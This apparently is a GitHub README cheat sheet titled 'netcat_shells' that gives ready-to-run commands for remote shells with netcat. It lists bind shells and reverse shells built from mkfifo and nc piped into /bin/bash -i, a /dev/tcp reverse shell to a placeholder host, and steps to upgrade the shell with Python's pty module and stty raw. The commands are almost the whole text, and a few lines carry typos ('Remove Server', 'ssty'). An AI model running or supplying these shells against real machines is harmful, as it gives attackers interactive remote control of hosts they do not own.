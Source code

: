 # netcat_shells
Notes for utilizing netcat general use and for remote shells

OpenBSD derivities of nc/netcat (netcat-openbsd) have the '-e' option disabled for security purposes. This feature is enabled in netcat-traditional; however, there are other ways to achieve this with the OpenBSD version.
Below are other ways to execute remotely and options for upgrading the shell.

# Bind Method 1
on Remote Server:
mkfifo /tmp/f;
nc -l 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1

On client:
nc 10.10.0.1 1234

# Bind Method 2
On Remove Server:
mkfifo /tmp/f;
cat f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f

On client:
nc 10.10.0.1 1234

# Additional Bind Methods
mkfifo /tmp/f ; nc -lk 1234 0< /tmp/f | /bin/bash 1> /tmp/f

#to show output on remote host<br>
mkfifo /tmp/f ; nc -l 1234 < /tmp/f | /bin/bash -i 2>&1 | tee /tmp/f

# Reverse Shell Methods
#similar to bind shell except remote target machine reaches out to server
On Client:
nc -l -p 1234

On Remote Server:
mkfifo /tmp/f; nc 10.10.0.1 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1

or On Remote Server:
/bin/bash -i > /dev/tcp/<ip>/<port> 2>&1 0<&1

# Getting a better Shell
If executing bash without the '-i' flag, typical shell features will be lost. Below are several ways to gain a better shell.

Python Method:<br>
#Once are connected to the remote host issue the following<br>
python -c 'import pty; pty.spawn("/bin/bash")'

Alternate Method:<br>
ctrl+z to put current session in background;
ssty raw -echo;
fg;
reset;
xterm;
